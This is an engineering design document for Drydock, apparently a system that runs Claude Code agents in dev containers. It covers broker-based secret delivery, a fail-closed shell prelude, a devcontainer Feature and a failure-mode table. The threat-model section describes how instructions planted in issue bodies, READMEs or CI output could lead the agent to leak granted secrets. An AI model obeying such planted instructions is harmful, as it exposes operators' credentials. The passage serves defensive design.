> 1. **Make it a constant one-liner that delegates to the helper.** The script *text* is read once per session and cached; only its execution repeats. Rewriting the file mid-session has no effect (measured: the file changed on disk and no later command saw it). So nothing Drydock might want to change may live in the text — one line, `eval "$(drydock-secrets export || echo exit 69)"`, and the file never needs rewriting for the life of the workspace.
> 2. **Never inline resolved values.** The whole file text is passed to each command shell as **`argv`**, so it is visible in `ps`. Values stay out of `ps` only because the helper is *invoked* from the prelude and its output is consumed by `eval` — that is what makes the claim above true, not a general property. Keep it short for the same reason: it is prepended to every command's `argv`.
> 3. **`drydock-secrets export` must be silent on success.** This is a correctness requirement, not tidiness. Prelude stdout *and* stderr are prepended to every Bash result **the agent reads** — a progress line, a deprecation warning, or a stray `set -x` contaminates the model's view of every command for the rest of the session. Diagnostics go to Drydock's event log over the socket. This belongs with the redact-by-default invariant.
> 4. **Fail closed, by `exit`ing non-zero.** An `exit` in the prelude aborts the command entirely — even a bare `echo` returns the prelude's status and stderr, and the agent correctly reads it as the tool being unavailable. A merely-failing last command does *not* abort. So on a broker outage, `exit 69` with one line of explanation on stderr; the alternative is `pytest` running with `TEST_DATABASE_URL` unset and the agent debugging a connection error in the repo for twenty minutes. A broker outage should make the workspace unusable rather than subtly wrong.
>
> One cost to accept: the prelude runs per command, so the broker is called per command. It is a Unix socket to a local process holding values in memory, so this is microseconds — but the broker must stay cheap per call (no GitHub round-trip, no KDF per request; decrypt at grant-resolution time, not per export).

> [!WARNING]
> **Constraint 4 cannot be met by the helper's exit status, and the one-liner hides why**
>
> Found implementing it. `eval "$(drydock-secrets export)"` is an `eval` of a command substitution, and the status of that line is `eval`'s, not the substitution's: a helper that prints nothing and exits `69` hands `eval` the empty string, which succeeds, and the command runs without its secrets. The constant line in constraint 1 therefore **fails open** with a helper that merely exits non-zero — exactly the outcome constraint 4 exists to prevent, and invisible in every test that checks the helper's status rather than whether the command after the prelude ran.
>
> So on any failure `drydock-secrets export` writes `exit 69` **to stdout** as well as exiting 69, with its one line on stderr. The `eval` then runs `exit 69` in the command's own shell, which is what Spike 03 observed aborting the command. The test that holds this is `TestExportFailsClosed`: it runs a command *after* the prelude and asserts the command did not run.
>
> That still left a helper that cannot run at all — deleted, not executable, a broken interpreter line. It prints nothing, the shell's own `not found` or `Permission denied` goes to stderr, and `eval ""` succeeds: the command runs without its secrets. **So the line is `eval "$(drydock-secrets export || echo exit 69)"`**: any non-zero status from the substitution, `126` and `127` included, hands `eval` an `exit 69` of its own. A helper that fails normally prints `exit 69` itself and the `||` adds a second, which is never reached. It was changed before any session depended on the text (sessions cache it — Spike 03), so no supervisor needed restarting for it. Held by `TestPreludeFailsClosedWithoutTheHelper` and the Feature's scenario check *a helper that cannot run stops the command*, each with the helper removed and made non-executable, in `dash` and `bash`, asserting that a marker the command would write is absent — and each with the working helper as its control. Reverting the line fails both.

#### As built, Phase 4

- **`GET-SECRETS` takes nothing and answers the framing above.** The socket decides the workspace, the workspace its repository, and the repository its grant set — `secret_grant` rows plus every `all_repos` secret. An ungranted workspace gets `OK count=0` and `END`: an answer, not an error. A workspace being deleted, or no longer in the database, gets `ERR reason=revoked`; anything the broker cannot answer truthfully gets `ERR reason=unavailable`. An archived repository, or one the installation dropped, still gets its secrets: the grant is the operator's decision, not GitHub's.
- **The broker reads a snapshot, not the database.** Every secret is decrypted once into memory when the first request after a write arrives, and every later request is a map lookup — measured as zero decryptions and zero GitHub requests over fifty fetches. A snapshot holding anything undeliverable — a row that does not open, or a name or value the write-time rules would refuse, which only a database edit can produce — fails *every* fetch with `unavailable` rather than delivering the rest: half an environment is the worse outcome. The snapshot checks every row and keeps none of their values when one fails, so the condition names each broken secret.
- **The condition is state, not only an event** (frontend §4.5 #12). Drydock holds it beside the snapshot, `GET /api/secrets` reports it as `undeliverable`, and every change is announced: `secret.undeliverable` when delivery breaks or the set of broken rows changes, `secret.deliverable` when it is fixed. A write rebuilds the snapshot at once rather than at the next fetch — every write is validated, so a write can only repair — which is why storing the lost value again, or deleting the bad row, clears the fault on every screen within the request. The server looks at boot too, so a replaced master key is reported before any workspace runs a command, and a process that finds the rows repaired after a restart announces `secret.deliverable` if the last event in the log was a report: the clients that saw the old process's report are waiting for it. A transient read failure changes nothing either way.
- **`secret_access` is written before the answer is sent, and the answer is not sent if it cannot be.** One row per secret per fetch, which is to say per Bash command.
- **`drydock-secrets export` is POSIX `sh` and builtins only** after the fetch: no `sed`, no temporary file, so values touch no disk and no other process's `argv`. It checks that the first line is `OK count=N`, that every line is `NAME value` with a name matching the pattern (spelt letter by letter, because a bracket range like `[A-Z]` matches lowercase in some locales), that `END` closes it with nothing after, and that `N` matches; any failure is the `exit 69` above. Quoting is the `'\''` rule, verified by a property test over both transports in both `dash` and `bash`.
- **The env file is a file shipped in the Feature** (`etc/claude-env.sh`), not text the installer generates, so the constant is reviewable as a constant and a test can compare it byte for byte.

So a restart is not the general answer. It is the answer for the consumers that genuinely hold a frozen environment:

| What needs the new value | Restart? | Why |
|---|---|---|
| The next test command Claude runs | **No** | Fresh process per Bash call; either route above reaches it. |
| A background process the agent already started | That process | `npm run dev &` holds the environment it was born with. Nothing about Drydock changes this — it is true of every environment change on every system. |
| An MCP server configured for the repo | **Yes** | Claude Code starts MCP servers itself and hands them their environment then. Only restarting the supervisor re-launches them — see the note below on why ending a session is not enough. |
| Claude Code's own configuration | **Yes** | Anything read at startup, including the reserved names in §10.1. |
| A change to the `CLAUDE_ENV_FILE` script's *text* | **Yes** | The text is cached per session (Spike 03). Changing which secrets are *granted* needs no restart — the grant set is resolved in the broker on each call and the text never changes — but switching mechanism or inlining anything does. Stated explicitly so a later change does not quietly assume text edits are live. |

> [!WARNING]
> **When a restart is needed, restart the right thing**
>
> §8 runs `claude remote-control` in server mode with `--spawn worktree`, so one process serves many sessions. A new session spawned by that server inherits *the server process's* environment, not a fresh one. Ending a session and starting another from your phone therefore does **not** pick up a new secret. The UI's restart action has to terminate and re-exec the supervised server process, and the button should say so — this is exactly the kind of thing that produces twenty minutes of confusion about why the value is still stale.

Drydock marks every workspace holding a rotated secret as stale and shows what that costs: *“applies to new commands”* where that is true, and *“needs a supervisor restart”* where the workspace declares MCP servers, which Drydock knows from the resolved configuration. It never restarts anything on its own — a session mid-task is not something to kill for a config change.

As built, the stale set is the **running** workspaces whose repository the rotated secret reaches (its grants, or every one under `all_repos`); a stopped or building workspace has no command shell yet and reads current values when it starts. The kind is decided per workspace by a hook on the store (`secrets.Store.StaleKind`), and with no hook every one is `new_commands` — which is the truth until Phase 5, because until a supervised `remote-control` server exists nothing Drydock started holds a frozen environment. Phase 5 supplies the hook: `needs_supervisor_restart` when the workspace's supervisor is running and its resolved configuration declares MCP servers. The list is not persisted: it is the PUT's answer and the `secret.rotated` event's data. A "stale" flag that outlives the page would need clearing on a supervisor restart, which also does not exist yet.

### 10.4  What this protects against, and what it does not

> [!WARNING]
> **Read this before granting anything**
>
> Every secret granted to a workspace is readable by everything running in that container, including Claude. It can be printed, logged, written to a file, or sent anywhere the container can reach. **There is no technical control in this design that prevents that**, and the delivery mechanism in §10.3 does not change it — keeping values out of `argv` and off disk narrows accidental exposure, not deliberate use.
>
> This matters more than it would for a human developer, because the agent reads untrusted text as part of its job: issue bodies, dependency READMEs, code review comments, CI output, the contents of the repo itself. Any of those can carry an instruction. The agent does not need to be malicious for a secret to leave.

Since no mechanism enforces the boundary, the boundary is what you grant. That means the discipline has to be built into the workflow rather than left to memory, which is what the `reach` field is for: Drydock will not store a secret until you have written down what someone could do with it. It is a small friction, and it is deliberately placed at the moment you are most able to answer the question and least likely to bother.

Grant-time rules of thumb, in the order they should be applied:

1. **Prefer a credential to a disposable thing over a scoped credential to a real thing.** A Postgres password for a container in the same compose project is not a secret. That is the best outcome available and it is available surprisingly often.
2. **Prefer the sandbox account.** Stripe test keys, a staging tenant, a throwaway project on the third-party service. Providers offer these precisely so that leaking one is paperwork rather than an incident.
3. **Never grant a credential that can spend money, delete data, or reach production.** Not to a repo you trust, not for one debugging session. If revoking it would ruin an afternoon, it does not go in.
4. **Grant to one repo, not to all.** The `all_repos` flag exists for things like a shared package-registry read token. Every use of it widens the blast radius of every repo at once.

What Drydock does do, because it is cheap and reduces the accidental cases:

- **Nothing is logged.** Values never reach the event stream, the SSE feed, Caddy's access log, or any persisted file. Drydock also scans its own outbound log lines for stored values and redacts on match, which catches the case where a secret arrives inside some other string.
- **Access is recorded.** Every `GET-SECRETS` writes a `secret_access` row. After “did this key leak?”, the question is always “which workspaces ever held it?” and this is the only way to answer it. **Deleting a workspace keeps its rows** (Phase 6): a deleted workspace is exactly one whose history that question is asked about after the fact, and the rows hold an id and a time, never a value. `token_grant` and the event log are kept for the same reason; only the `supervisor` row, which describes a process that no longer exists, goes with the workspace.
- **Anthropic credentials are scrubbed from subprocesses** via `CLAUDE_CODE_SUBPROCESS_ENV_SCRUB`, so a test process cannot read the login that §7 works so hard to establish.

And, stated plainly, what none of that covers: the conversation transcript. A Remote Control session's contents travel to claude.ai by design, so a secret printed by a failing test is in the transcript and out of Drydock's reach entirely. Redaction on Drydock's own logs is not a redaction of the agent's context.

### 10.5  The door left open

Claude Code's sandbox can enforce what this section cannot. Its `sandbox.credentials.envVars` setting supports a `mask` mode: sandboxed commands see a per-session sentinel instead of the real value, and the sandbox proxy substitutes the real one only on outbound requests to hosts named in `injectHosts`. The command authenticates; the command, and anything it logs, never holds the credential. Paired with `network.strictAllowlist`, that is a genuine boundary rather than a discipline.

It is not adopted here, for reasons that are about maturity rather than merit: masking requires `network.tlsTerminate`, still flagged experimental; it covers HTTP credentials only, so a Postgres URL is out of reach of it regardless; and it depends on `bubblewrap` creating user namespaces *inside* a dev container, which is unproven in this setup and blocked outright by the default AppArmor policy on Ubuntu 24.04 and later.

What this design does is stay ready for it. The `inject_hosts` field is in the schema and unused; `reach` already records the classification the tiering would key on; and secrets are already delivered as environment variables to the `claude` process, which is exactly the shape masking expects. Adopting it later is a spike and a settings file, not a redesign.

> [!NOTE]
> **One landmine to know about before that spike**
>
> The sandbox's optional seccomp filter blocks Unix domain sockets. Drydock's broker socket — the mechanism behind both §9 and this section — is a Unix domain socket bind-mounted into the container. If that filter is installed and the socket is not allowed through `allowUnixSockets`, git operations inside a sandboxed command lose their credential helper and fail in a way that looks like a GitHub outage. Worth knowing in advance rather than discovering it.

## 11. The devcontainer Feature

One published Feature, `drydock` (`ghcr.io/krelinga/drydock/drydock`, source in `feature/src/drydock`; earlier drafts called it `drydock-claude`), carries everything Drydock needs inside a container. Keeping it a Feature rather than an image layer means it composes with any base image a repo chooses, and it is the same mechanism already in use for shared config via `dev.containers.defaultFeatures` — so the pattern is not new, only the payload.

| Stage | Does |
|---|---|
| `install.sh` | Install Claude Code (pinned version, `DISABLE_AUTOUPDATER=1`), `gh`, and the two shims. Write `~/.gitconfig` credential helper stanza. |
| `containerEnv` | `CLAUDE_CONFIG_DIR`, `DRYDOCK_BROKER_SOCK`, `PATH` prefix for the shims. |
| `containerEnv` (cont.) | `CLAUDE_ENV_FILE`, pointing at a one-line script that runs `eval "$(drydock-secrets export || echo exit 69)"` — see §10.3 for why it must be exactly one constant line. |
| `postCreateCommand` | Assert none of the four Remote-Control-killing variables from §2.1 are set; assert `ANTHROPIC_BASE_URL` is unset; probe the broker socket; **write the `.claude.json` keys** below. Fail loudly on any of these. *As built: the broker probe is `postStartCommand`'s, and of the three keys the Feature writes two — see "As built, Phase 5".* |
| `postStartCommand` | Re-probe the socket — a container started without a working one must be reported rather than silently failing on the next push. A restarted Drydock recreates the socket while containers run; that is not this probe's to catch, and since the directory mount (§6 step 5) there is nothing to catch: the new socket appears in the mounted directory. |

> [!IMPORTANT]
> **Three config keys gate a headless `remote-control`; `postCreate` writes the two that hang, and the login supplies the third**
>
> "Run `claude` once to accept the trust dialog" answers one of three gates, needs a TTY, and leaves the second one to **hang** a later headless start rather than fail it. [Spike 02](../spikes/02-rc-restart.md) measured each; all three live in `$CLAUDE_CONFIG_DIR/.claude.json` and writing them is deterministic and testable:
>
> | Key | Without it |
> |---|---|
> | `projects["/workspace"].hasTrustDialogAccepted` | On a PTY, **a hang** on `Trust <dir>? [y/N]`. Only with output redirected does it exit `1` with ``Error: Workspace not trusted. Please run `claude` in <dir> first…``. The supervisor owns a PTY, so the supervisor gets the hang (re-measured on `2.1.289`). |
> | `remoteDialogSeen` | an interactive `Enable Remote Control? (y/n)` prompt — the start hangs, looking like a wedge rather than a missing key. **Two** of these three gates hang rather than fail, which is why §12 and the testing plan treat a timeout as an expected verdict. |
> | `oauthAccount` (carried by the shared volume, §7.1) | `Error: Unable to determine your organization for Remote Control eligibility` |
>
> Two consequences worth holding onto. Trust is keyed on the **absolute path**, and every workspace mounts its clone at the same in-container path, so on the shared volume **one `/workspace` trust record satisfies every container** — an unlooked-for benefit of §7.1. And answering the consent prompt also writes `remoteControlMachineId`, so every container on the shared volume presents the **same machine id**; nothing observed breaks, but it is worth knowing before debugging why fifteen workspaces look like one device.
>
> Still open: `--spawn worktree` puts on-demand sessions at *other* paths, and whether a worktree path needs its own trust record is untested. It would fail only for the second and later sessions — the hardest case to notice. Check it in Phase 5.

> [!WARNING]
> **Pin the version**
>
> Drydock scrapes Claude Code's terminal output in two places (the login handshake, the Remote Control session URL). Background auto-updates would change that output without warning, so the Feature pins an exact version and sets `DISABLE_AUTOUPDATER`. Upgrading Claude Code then becomes a deliberate Drydock release with a scrape smoke-test — which is the correct amount of friction for a dependency this brittle.
>
> All four spikes now depend on that pin. Everything they measured — the refresh lock (00), the login flow and `auth status` schema (01), the reconnect behaviour, the three config keys and the OSC 8 wrapping (02), and the per-command prelude (03) — is undocumented internals of one version, first **`2.1.246`** and, re-measured, now **`2.1.289`**. Re-run all four harnesses on every bump.

#### A repository's Features are in the host-access subset, Drydock's is not

A Feature's metadata can ask for `privileged`, `capAdd`, `securityOpt`, `mounts` and `init`, and the CLI applies them as it applies the repository's own (measured: docker-in-docker's sets `privileged`). So step 3's host-access subset (§6, *What a configuration may ask of the host*) is read from the merged configuration, which carries every Feature the repository declares, and a Feature's entries are marked `feature_or_image` and need the same approval as the repository's. Drydock's own Feature is not in it: `read-configuration` is not given `--additional-features`, because the Feature is Drydock's, pinned by Drydock's reference, and declares none of those fields — `containerEnv` and lifecycle commands only. A Feature is fetched by tag twice, by the check and by `up`, and its author can move the tag between the two; so what `up` then asks Docker for is held to the approval again by the docker guard (§6, *The docker guard*), and a Feature that grew `privileged` after the check is refused at `up`. Drydock's own Feature passes the guard with nothing approved, as its recorded build and run show (`docker-argv-drydock.jsonl`).

#### As built, Phase 3

The GitHub half exists; the Claude half (installing Claude Code, `CLAUDE_CONFIG_DIR`, `CLAUDE_ENV_FILE`, the three `.claude.json` keys, the variable and competing-mount assertions) lands with Phases 4 and 5. What is there, and the decisions the table above did not anticipate:

- **The clients live in `/usr/local/drydock/bin` and are linked from `/usr/local/bin`.** `containerEnv` prefixes `PATH`, but Debian's `/etc/profile` *replaces* `PATH` in login shells, and the supervisor's command is one (`bash -lc`, §10.3). `/usr/local/bin` precedes `/usr/bin` in every standard `PATH`, so the `gh` shim still shadows an apt-installed `gh` there. A real `gh` already at `/usr/local/bin/gh` is moved aside to where the shim looks last. The shim skips any `gh` that resolves to itself, because it is reachable by two paths and would otherwise `exec` itself forever.
- **git is configured system-wide** (`credential.https://github.com.helper`, `core.hooksPath`, and the bot identity from the `botName`/`botEmail` options), because the install does not know the remote user's home.
- **The `drydock/` branch prefix is a `pre-push` hook** behind `core.hooksPath` (option `branchPrefix`, empty to disable). It refuses pushes and deletions outside `refs/heads/drydock/`. Every other hook name passes through to the repository's own hook, so setting `core.hooksPath` does not silence a repo's `pre-commit`. A repository that sets its own `core.hooksPath` bypasses the guard. That is accepted, because the guard is a convention and not a boundary: the token can push anywhere in its repository.
- **`postStartCommand` is `drydock-probe`**, one `PING` to the broker, failing the start when it does not answer. The `requireBroker: false` option exists so the Feature's own test suite can run with no broker.
- **`install.sh` installs `gh` itself**, from GitHub's own package repositories on apt (Debian, Ubuntu) and dnf, and Alpine's `github-cli` package on apk; an image that already has `gh` keeps it, and an image with none of the three package managers fails the install with a message saying `gh` is part of every workspace. git and `socat` are installed if absent. Until Feature 0.3.0 `gh` arrived through `dependsOn` (`ghcr.io/devcontainers/features/github-cli:1`), and that was the leak §6 measured: the CLI writes an injected Feature's dependencies into the repository's `devcontainer-lock.json`, so every committed lockfile came back rewritten with a Drydock internal in it — noise in every agent's pull request, and a broken build for any repository whose CI uses `--frozen-lockfile` once one merged. Installing it here keeps the Feature dependency-free, which is what lets Drydock honour a lockfile by doing exactly what VS Code does. `installsAfter` names the github-cli Feature, so a repository that declares it should still get it installed first — that is the Features spec's ordering, not something measured here. The install records where `gh` came from (`GH_INSTALLED_BY` in `feature.env`), and the bare `ubuntu:noble` scenario asserts it was the Feature.

#### As built, Phase 4

The `CLAUDE_ENV_FILE` row of the table above exists; nothing else of the Claude half does yet. Feature version `0.2.0`:

- **`containerEnv` sets `CLAUDE_ENV_FILE=/usr/local/drydock/etc/claude-env.sh`**, a file shipped in the Feature's source (`etc/claude-env.sh`) holding exactly `eval "$(drydock-secrets export || echo exit 69)"` and a newline. Nothing at install or start writes it, so nothing can inline a value into it.
- **`drydock-secrets` is linked into `/usr/local/bin`** beside the other clients, for the same login-shell reason.
- **`requireBroker: false` does not soften secrets.** With no broker the prelude still ends every command with `69`; a Feature test asserts it. That option exists for the probe, and a command that cannot have its secrets must not run either way.

It is tested by the official harness (`devcontainer features test`, `feature/test/drydock/`), on a devcontainers Debian base and a bare `ubuntu:noble`. The suite runs a stand-in broker on a socket, because without one a looping shim still fails fast at the token fetch and the loop check would be vacuous.

#### As built, Phase 5 — the Claude half

Feature version `1.0.0`. It is a new major because it refuses a container without the shared credential volume, which a Drydock from before it never mounts: Drydock now references `ghcr.io/krelinga/drydock/drydock:1`, and an older one stays on `:0`, which still resolves to `0.3.1`.

- **Claude Code is installed at exactly `claudeCodeVersion`** (an option, default `2.1.289`), from Anthropic's own release downloads (`downloads.claude.ai/claude-code-releases/<version>/<platform>/claude`), checked against the SHA-256 in that version's manifest — the artifacts and check `claude.ai/install.sh` uses. Not that script itself: it always downloads and runs the *latest* binary to perform an install, which would execute an unpinned build at image time, and it installs into the installing user's home, root's here. For the pinned version the Feature also carries the four Linux checksums itself and refuses a manifest that disagrees, so the pinned bytes cannot change under it. A version that is not `X.Y.Z` — `latest`, `stable` — is refused. The binary lives in `/usr/local/drydock/claude/<version>/` and is linked from `/usr/local/drydock/bin` and `/usr/local/bin`, like the clients; an image's own `/usr/local/bin/claude` is moved aside. The install runs `claude --version` in a throwaway home and fails the build if it does not report the version asked for. `containerEnv` sets `DISABLE_AUTOUPDATER=1`.
- **Drydock passes the version, rather than trusting the Feature's default.** The server sets `claudeCodeVersion` to `classify.ClaudeCodeVersion`, the version its classifiers were recorded against, so a Feature release under the same major tag cannot move a running Drydock's Claude Code; §6 step 7 then refuses a container whose `claude --version` says otherwise. A Go test asserts the Feature's default, its `CLAUDE_PIN` and checksums, and CLAUDE.md's stated version agree with the constant.
- **`postCreateCommand` is `drydock-preflight && drydock-claude-config`.** Feature lifecycle commands run before the repository's own, in the workspace folder, as the remote user.
- **`drydock-preflight`** reports every check that fails, one line each naming what failed, and exits `1`, which fails `devcontainer up`:
  - each of `DISABLE_TELEMETRY`, `DO_NOT_TRACK`, `CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC` and `DISABLE_GROWTHBOOK` set at all, empty included, and `ANTHROPIC_BASE_URL` set to anything but `https://api.anthropic.com` — in the process environment, which carries `containerEnv` and `remoteEnv` alike, *and* in the `env` block of each settings file Claude Code applies (the shared volume's `settings.json`, the project's `.claude/settings.json` and `settings.local.json`, and `/etc/claude-code/managed-settings.json`), which is §2.1's "including in any `settings.json` `env` block". The value of `ANTHROPIC_BASE_URL` is never printed; a gateway URL can carry a credential. This is checked at create only; a settings file edited later is not.
  - `CLAUDE_CONFIG_DIR` not the Feature's own path;
  - nothing mounted there, more than one thing, or a separate mount inside it; a network filesystem there;
  - a root remote user, one that cannot reach the directory (another user's `0750` home above it hid it, and the next step failed saying only "not a directory"), or one that does not own it — which, since step 4 gives the volume to Drydock's uid, means a remote user the CLI did not move to that uid, and the sentence says so (§7.1, `1.0.1`) — or cannot write it.
- **`drydock-claude-config`** writes the two keys whose absence *hangs* a headless start — `remoteDialogSeen` and `projects["<workspace folder>"].hasTrustDialogAccepted` — and not `oauthAccount`, which only a login writes (§7.2, track d of Phase 5). It merges rather than rewrites: everything else in the file survives, and a file that is not a JSON object is refused rather than replaced, since it may hold the fleet's account record. The file is shared by every container, so the write takes **Claude Code's own lock** — read out of `2.1.289`, Claude Code saves `.claude.json` under a proper-lockfile lock at `$CLAUDE_CONFIG_DIR/.claude.json.lock`, a directory made with `mkdir(2)`, and re-reads the file under it before writing. The Feature takes the same lock the same way, re-reads under it, writes a temporary file in the same directory and `rename(2)`s it over the old one, and releases the lock on every exit — so neither side can write over an update the other made between its read and its write, and no reader sees a torn file. It retries the `mkdir` once a second for a minute and **never steals the lock**: Claude Code takes over a stale lock itself, and a second party deciding a lock is abandoned races the holder's heartbeat, which is why the refresh lock is never reaped either (Spike 00). A lock held past a minute fails the create, naming the lock. When both keys are already there it writes nothing.
- **Tested** by the scenarios (every one now mounts a volume at `/home/vscode/.claude`, as Drydock does), which assert the pinned version in both shells, the autoupdater off, the mount and its owner, the keys written for the workspace folder, `drydock-preflight` failing for each variable by name and only that name, the merge preserving `oauthAccount` and other projects, a writer waiting on a held lock and writing once it is released, and twenty concurrent writers losing no update. The harness cannot express a build that should fail — a container that does not come up ends the whole run — so the builds that must fail are `feature/expect-fail/run.sh`, real `devcontainer up` runs beside a baseline that must come up: one per variable, one through `remoteEnv`, no volume, a competing `CLAUDE_CONFIG_DIR`, a mount inside it, a mount at the same path, and a root remote user. CI runs both. Before the scenarios, `feature/prepare-test-volumes.sh` prepares each scenario's volume as step 4 would (its line is the owner helper's, compared by a Go test), so `ubuntu-bare` — remote user `ubuntu`, the CLI's uid update on — exercises a non-`vscode` user moved to the runner's uid, which before `1.0.1` it turned off.

#### Relationship to the existing setup

The current default-features mechanism applies a `CLAUDE_CONFIG_DIR` mount to every VS Code container using a `${devcontainerId}`-derived volume. Drydock containers should *not* pick that up: they use the shared Drydock credential volume instead, and two volumes mounted at the same path is a silent conflict. The Feature should detect a competing mount at `CLAUDE_CONFIG_DIR` and refuse to start. Likewise the shared-`CLAUDE.md` submodule `postCreateCommand` keeps working unchanged — it operates on the repo, which Drydock clones normally.

*Measured on CLI 0.89.0 and Docker 29, which narrows "silent".* `dev.containers.defaultFeatures` is a VS Code setting, so the CLI Drydock drives never applies it. Two entries at one target **inside a configuration's own `mounts`** are merged by the CLI and one silently wins; but a `--mount` given on the command line — which is how Drydock passes the shared volume — is never merged with them, so Docker receives both and refuses the container (`Duplicate mount point`). Under Drydock, then, a repository cannot displace the shared volume at its path. What it *can* do silently is point `CLAUDE_CONFIG_DIR` somewhere else (with a volume of its own there, the default-features shape) or mount something inside it, and those are what `drydock-preflight` refuses.

## 12. Failure modes

| Failure | Detection | Response |
|---|---|---|
| Claude login expired | Expiry poller; supervisor sees the eligibility error on start | *As built*: an `expired` file (the access token lapsed, §2.4) is no fault — servers start and renew it. A login that is really over is blanked, and then every supervisor waits in `awaiting_login` (`degraded` is kept for faults a sign-in cannot fix), and with it every session it was serving. Banner with a one-click re-login. **No restart loop.** |
| Terminal scrape breaks after a Claude Code upgrade | Login or session-URL capture times out with a full buffer | Pinned version prevents the surprise. Ship a smoke test that runs both scrapes against a scratch container in CI for the release. *As built:* each scrape's timeout has its own sentence — the login's *"Claude Code did not show a login link in time."* or *"…a login link Drydock cannot read. Drydock needs an update for this version of Claude Code."* on Settings' sign-in, and the session server's *"announced no environment within 1m30s"* on the card, restarted under the budget and then *Session degraded* with Restart. |
| Remote Control unavailable (base URL / telemetry vars) | Feature `postCreate` assertion | Fail the build with the exact variable named. Do not produce a container whose sessions never connect. *As built:* the Feature's preflight names each variable in `up`'s output, and the `up` step's detail — so the card and its *Rebuild* — says *"Remote Control cannot work in this container: DO_NOT_TRACK is set in its environment or a Claude Code settings file, which disables it. Remove it from the dev container configuration, then Rebuild; the clone is kept."* Only names from §2.1's list are copied from the line (`provision.upFailure`); the rest of it stays in the service log and the held build log. |
| Image build fails | `devcontainer up` non-zero, JSON `outcome` | Workspace → `failed` with the last 50 build lines. Clone retained so a fix-and-rebuild is one click. *As built:* the step's detail is *"The image build or the container's start failed. The clone is kept: fix the dev container configuration and Rebuild…"*, the card offers Rebuild, and the detail view shows the last 50 lines of the failed `up` from `GET /api/workspaces/:id/build-log` — held in memory, never persisted, cleared when the next `up` starts or the workspace is deleted — and lost by a restart, which the page then says. It is masked twice by the one redactor the session server's log uses (`internal/redact`: the repository's granted secret values first, longest first, then GitHub, Anthropic and bearer token shapes and credential query parameters): **when it is kept**, with the values granted then, and only that masked copy is held — so the raw log never stays in memory, and a value later rotated, ungranted or deleted stays masked, as the session log never forgets one — and **when it is served**, with the values granted now, so a secret granted after the failure is masked too. Each line is masked whole and only then cut to 2,000 bytes, so nothing straddling the cut shows a prefix. Values that cannot be read — an undeliverable secret — fail closed at both points: a log that could not be masked when kept holds no lines and is withheld for good, and one that cannot be masked now is withheld (`withheld`) until it can. The journal's copy (`logTail`) is masked the same way, and its lines are replaced by a count when the values cannot be read. The lines are the **tail** of `up`'s stderr (its last MiB): the Feature's preflight and probe lines come last, and a head-kept buffer lost them on a verbose build. A timed-out or unreadable `up` holds its output too. (The session server's log still masks with no values when they cannot be read; making it fail closed too is open.) |
| Broker socket missing or stale | `postStart` probe; helper connect error | Recreate the socket and re-mount on next start. Surface as “GitHub access unavailable”, never as a git error. A Drydock restart does not strand a running container's mount: the directory is mounted, not the socket (§6 step 5). *As built:* a socket that does not answer at a start — the Feature's `postStartCommand` probe failing `up`, or step 7's probe — is *"GitHub access unavailable for this workspace: its broker socket did not answer when the container started. Start it again, or Rebuild if that does not help; the clone is kept."*; the detail view's *GitHub access* row reads every later refusal from the newest token event, never a git error — except that a repository the catalog marks removed or archived says so first: the broker refuses those from its own row without an event (one per git command would flood the feed), so the feed's newest token event can predate them, and the catalog is what the read-only badge reads too. |
| Container made by a Drydock before the directory mount | `docker inspect` `Mounts`: a bind at `/run/drydock/broker.sock` | Boot parks its session server as `degraded` / `stale_broker_mount`, shown with Rebuild; a start fails at `up` asking for a rebuild. Never a silent exit 69. One rebuild per such workspace. |
| GitHub rate limit or App suspended | `ERR reason=` from the broker | Cached token serves until expiry; then a clear message. Never fall back to a broader credential. *As built:* the cache serves a token already issued (`TestRateLimitIsSaidAsGitHubRefusing`); without one, `token.refused` says *"GitHub is refusing requests: it would not issue a git token because the App's rate limit is spent or the App is suspended. Tokens already issued work until they expire. Check the App on GitHub; nothing in Drydock can retry it sooner."*, and the detail view's *GitHub access* row says the same from the event's `reason`, with no button. |
| App lacks a permission a scope needs, or a permission change not yet accepted on the installation | GitHub's `422` *permissions requested are not granted* on the mint (§5) | `ERR reason=app_permission_missing`, and a `token.refused` event naming the scope and its permission set. Never reported as `revoked`, never retried with fewer permissions: the operator fixes the App, and the next request succeeds. |
| Repo removed from the installation | Catalog refresh; token mint fails | Mark the workspace read-only, keep the container. The working tree may hold unpushed work. Its secret grants stay while the workspace does — the grant is the operator's decision, not GitHub's, and the workspace keeps working on what it has — and go with the repository's row when the workspace is deleted (the delete's own transaction; the next refresh sweeps any row an older release left). A repository re-added after that is granted nothing; one re-added while its workspace still held it never lost its grants, so nothing revives. *As built:* the workspace's card and detail view are badged *read-only* — *"Removed from the GitHub App, so git and gh have no access. Unpushed work in the working tree survives."* — with a link to the installation's settings, joined from the catalog's `removed`; a mint GitHub refuses as `revoked` says the same in `token.refused`. |
| Rotated secret not picked up | Workspace marked stale on rotation | Say which kind of stale it is (§10.3): new commands pick it up on their own, MCP servers and background processes do not. Never auto-restart — a session mid-task is not something to kill for a config change. |
| Secret name collides with a reserved variable | Rejected at write time (§10.1) | Refuse with the reason named. Catching this at injection time instead would mean a container that builds, starts, and never connects. |
| Secret value contains a newline or NUL | Rejected at write time (§10.1) | Refuse and say which character. Accepting it would forge a line in the `GET-SECRETS` response (§10.3) and bypass the reserved-name list, which is an injection rather than a formatting problem. |
| `GET-SECRETS` line count disagrees with the lines received | The client's own check (§10.3) | Fail the fetch, not the parse — the prelude `exit`s non-zero and the command aborts loudly. A short read is indistinguishable from a truncated secret, and running a test suite against a half-delivered environment is the worse outcome. |
| A secret leaked somewhere | You find out from the far service, as usual | Rotate at the source, then `PUT` the new value. `secret_access` answers which workspaces ever held it; that list is the scope of the incident. |
| Stopped a workspace mid-task | Nothing detects it — you did it | Since capacity is managed by hand (§1), the stop button shows the live session count and asks for confirmation when it is not zero. Unpushed work in the clone and its worktrees survives; only the conversation is lost. |
| Disk full | Pre-flight check before clone and build | Refuse new workspaces above a threshold. Show per-workspace disk in the UI so the operator knows what to delete. *As built* (§6 *Resources*): at or above `--disk-limit-percent` (default 90) a create, start, rebuild or approval is `507 disk_full`, *"The disk that holds the workspaces is too full to clone or build another, so nothing was started. Delete a workspace you no longer need — each one shows the disk it holds."* with both percentages; a banner on every screen says *"The workspace disk is 93% full"* and lists the three largest workspaces, each linking to its Delete; every card shows its disk. |
